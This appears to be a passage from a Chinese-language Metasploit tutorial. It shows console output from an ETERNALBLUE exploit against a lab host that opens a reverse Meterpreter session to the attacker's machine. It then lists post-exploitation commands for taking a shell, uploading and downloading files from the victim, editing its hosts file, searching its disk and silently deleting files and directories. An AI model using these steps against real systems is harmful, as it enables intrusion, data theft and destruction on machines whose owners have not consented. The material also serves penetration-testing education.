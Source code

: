 ```c
[*] 192.168.226.130:445 - Sending final SMBv2 buffers.
[*] 192.168.226.130:445 - Sending last fragment of exploit packet!
[*] 192.168.226.130:445 - Receiving response from exploit packet
[+] 192.168.226.130:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.226.130:445 - Sending egg to corrupted connection.
[*] 192.168.226.130:445 - Triggering free of corrupted buffer.
[*] Sending stage (201283 bytes) to 192.168.226.130
[*] Meterpreter session 1 opened (192.168.226.129:4444 -> 192.168.226.130:49238) at 2020-09-28 15:01:04 +0800
[+] 192.168.226.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.226.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.226.130:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > 

```

### 五、meterpreter 会话管理

你控制了别人，你要做什么？？？

基本命令

```c
1.background：将meterpreter终端隐藏在后台（快捷键ctrl+z）
 
2.sessions：查看已经成功获得的会话，如果想继续与某会话交互，可以使用sessions -i 命令.
 
3.quit：直接关闭当前的meterpreter会话，返回MSF终端.
 
4.shell：获取目标系统的控制台shell.
 
5.irb：在meterpreter会话与ruby终端交互.

```

文件系统命令

```c
1.cat：查看文件内容.
 
2.getwd：获得目标机器上当前的工作目录，getlwd，这个命令可以获得当前系统的工作目录.
 
3.upload：可以上传文件或文件夹到目标机器上;upload 要上传的文件 C:\Users\buzz\Desktop
 
4.download：从目标机器上下载文件或文件夹，注意windows路径要用双斜杠进行转义. download C:\\test.txt /root/home/test
 
5. edit：调用vi编辑器，对目标机器上的文件进行编辑;edit c:\\windows\\system32\\drivers\\etc\\hosts
 
6. search：可通过search -h查看帮助信息,参数-d指定搜索的起始目录或驱动，如果为空，将进行全盘搜索；参数-f指定搜索的文件或部分文件名，支持星号(*)匹配；参数-r递归搜索子目录.
search -d c:\\windows -f *.txt
 
7.rm：删除目标机器的文件.
 
8.rmdir /s/q c:\\test：进入shell后使用此命令可以删除目录下的所有文件和文件夹，/s表示所有子目录和文件/q表示安静模式，不显示yes or no.

```
